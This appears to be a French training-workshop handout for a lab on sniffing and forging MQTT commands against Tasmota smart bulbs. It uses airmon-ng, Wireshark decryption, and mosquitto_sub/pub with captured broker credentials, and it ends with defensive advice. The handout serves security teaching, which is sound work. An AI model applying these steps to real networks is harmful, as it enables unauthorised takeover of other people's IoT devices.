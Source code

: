 # Activité : Forge de paquets MQTT sur Tasmota bulbs

## Qu'est-ce qu'une ampoule connectée Tasmota ?

Les ampoules connectées Tasmota permettent de changer la couleur à distance et offrent des animations possibles, comme :
- Dégradé de couleurs
- Couleurs tournantes

### Firmware open-source Tasmota

Tasmota est un firmware open-source, conçu pour fonctionner sans cloud. Il offre plusieurs avantages :
- **Contrôle total** de la sécurité de l'objet
- **Confidentialité** des messages échangés
- **Compatibilité et flexibilité** : facile à intégrer sans intermédiaires
- **Résilience et fiabilité** : indépendant de la connectivité à Internet

## Activité : Forge de paquets MQTT sur Tasmota bulbs

### A vous de jouer !

Dans cet atelier, nous partons du principe que les identifiants du WiFi ont déjà été compromis.

### Étape 1 : Mise en écoute du réseau avec l'utilitaire Aircrack

1. Récupérez le nom de votre interface réseau avec la commande :
    ```bash
    ip -4 --br a
    ```

2. Pour démarrer Aircrack, exécutez la commande suivante :
    ```bash
    sudo airmon-ng start interface
    ```

### Étape 2 : Ouvrir l’utilitaire Wireshark pour analyser le réseau

1. Dans Wireshark, allez dans le menu `Edit -> Preferences -> Protocols -> IEEE 802.11`.
2. Entrez la clé suivante permettant de déchiffrer les échanges sur le réseau.
3. Filtrez les trames par `mqtt`.
4. Recherchez le paquet suivant (1er paquet) : 

### Étape 3 : Écoute des messages du broker MQTT

Nous avons récupéré les identifiants du broker MQTT, comparez-les avec ceux du WiFi.

1. Pour écouter les messages qui transitent sur le broker, quittez le mode MONITOR avec la commande :
    ```bash
    sudo airmon-ng stop wlp0s20f3mon
    ```

2. Lancez la commande suivante pour vous connecter au broker :
    ```bash
    mosquitto_sub -h 192.168.10.2 -t '#' -u USERNAME -P PASSWORD
    ```

3. Observez les messages qui transitent sur le réseau. Exemple :
    ```
    cmnd/tasmota_CFFCD0/Backlog NoDelay;Power1 OFF
    stat/tasmota_CFFCD0/RESULT {"POWER":"OFF"}
    stat/tasmota_CFFCD0/POWER OFF
    ```

### Étape 4 : Envoi de trames MQTT d'ordre aux ampoules

Les topics à utiliser pour publier des messages :
- Dans l'exemple précédent :
  - Topic : `stat/tasmota_CFFCD0/RESULT`
  - Donnée : `NoDelay;Power1 OFF` ou `{"POWER":"ON"}`

Tentez de forger une nouvelle trame avec le modèle suivant :
```bash
mosquitto_pub -h 192.168.10.2 -u "USER" -P "PASSWORD" -t "TOPIC" -m "DATA"

### Arrivez-vous à :

- Éteindre/allumer l’ampoule ?
- Changer la couleur de l’ampoule ?

**Félicitations**, vous avez réussi à prendre le contrôle d’un appareil IoT qui ne vous appartient pas !

## Bilan de l'activité : Comment se protéger d'une attaque par forge de paquet ?

Voici quelques mesures pour sécuriser votre réseau et éviter des attaques similaires :

- **Sécuriser les flux MQTT avec le protocole MQTT/SSL.**
- **Utiliser des mots de passe forts** pour vos brokers MQTT/SSL, par exemple : TeeX4eyH3dJq&Cv8t$QDNvqN%BxUIx^U
- **Séparer le réseau IoT du réseau principal** : Différez bien vos réseaux en fonction de vos usages.
- **Activer le filtrage MAC sur le réseau** pour empêcher de nouvelles machines inconnues de s’y connecter.

Des questions ? Des remarques ? Discutons-en !

